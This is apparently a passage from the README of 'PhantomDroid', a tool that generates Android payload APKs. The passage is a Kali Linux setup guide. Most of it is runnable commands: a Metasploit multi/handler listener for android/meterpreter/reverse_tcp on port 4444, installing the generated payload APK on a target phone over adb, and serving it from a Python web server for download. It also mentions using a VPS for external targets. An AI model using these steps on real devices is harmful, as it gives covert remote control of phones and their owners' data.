 ## 🔧 Kali-Specific Configuration

### Network Setup

```bash
# Find your Kali IP address
ip addr show
# or
ifconfig

# For testing on local network
# Use: 192.168.1.x (your Kali IP)

# For external testing (with VPS)
# Use: your-vps-ip or domain
```

### Metasploit Integration

```bash
# Start Metasploit (if needed)
sudo systemctl start postgresql
sudo msfdb init

# Create listener for PhantomDroid payloads
msfconsole -q -x "
use multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit -j
"
```

### Android Device Connection

```bash
# Enable ADB debugging on target device
# Connect via USB or network

# Check connected devices
adb devices

# Install generated APK
adb install output/payloads/phantom_tcp_*.apk

# Or use web server for download
python3 -m http.server 8000 -d output/payloads/
# Device downloads from: http://KALI_IP:8000/
```

## 🎯 Complete Penetration Testing Workflow
